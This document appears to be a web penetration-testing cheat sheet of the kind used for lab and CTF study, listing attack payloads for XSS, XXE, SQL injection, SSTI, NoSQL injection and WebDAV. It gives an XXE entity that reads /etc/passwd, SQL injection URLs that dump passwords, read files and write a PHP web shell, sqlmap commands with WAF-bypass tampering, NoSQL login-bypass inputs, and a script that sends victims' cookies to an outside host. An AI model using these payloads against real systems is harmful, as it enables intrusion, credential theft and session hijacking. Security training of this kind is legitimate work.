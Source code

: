 # Cross Site Scripting (XSS)
:information_source: https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)
:information_source: https://www.scip.ch/en/?labs.20171214 
:information_source: https://xss-game.appspot.com/
:information_source: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
:information_source: https://github.com/payloadbox/xss-payload-list
:information_source: https://tryhackme.com/room/learnowaspzap

# XML External Entities (XXE)
Basic idea: upload an xml to test if it gets parsed and then abusing the doctype definition (DTD).

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

# SQL Injection
## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
* https://github.com/payloadbox/sql-injection-payload-list

## Manual Enumeration
```
http://10.10.10.10/debug.php?id=1 order by 1 # increase until an error occurs to get number of columns

http://10.10.10.10/debug.php?id=1 union all select 1, 2, 3
http://10.10.10.10/debug.php?id=1 union all select 1, username, password
http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

## sqlmap
* example commands
```
sqlmap --url http://10.10.128.77:8000/sqlpanel --tables --columns
sqlmap -r sqlpanel.request --dbms=sqlite --dump-all --tamper=space2comment
```
* capture sqlpane.request with burpsuite first
* --tamper=space2comment for trying to bypass WAF

# Server Side Template Injection (SSTI)
Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side

* See https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
* Payload Generator: https://github.com/VikasVarshney/ssti-payload

Make sure to try every syntax
```
*{}
${}
#{}
```

# NoSQL Injection
* https://book.hacktricks.xyz/pentesting-web/nosql-injection

Check with the following characters for NoSQL database (if the webserver is responding with a 50X response code)
```
'"\/$[].>

# Examples
username[$ne]=1$password[$ne]=1
username[$ne]=toto&password[$ne]=toto
username='"\/$[].>&password=admin
username=admin'||'1==1&password=admin
```

# WebDAV
WebDAV is an extenstion of HTTP that allows clients to perform remote Web content authoring operations. RFC4918.

## Resources
* [Blogpost from Nullbyte](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
* HackTheBox: Granny 

## davtest
DAVTest tests WebDAV enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target.
```
davtest -url http://10.10.10.15
```

## cadaver
Cadaver is a simple command-line client, similar to for example the 'ftp' program. It has some advanced features such as lock-management, property management, DASL and version control support.
```
cadaver http://10.10.10.15/mfu
```

# Cookie Stealer
```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

See Github Repo 'Redline'
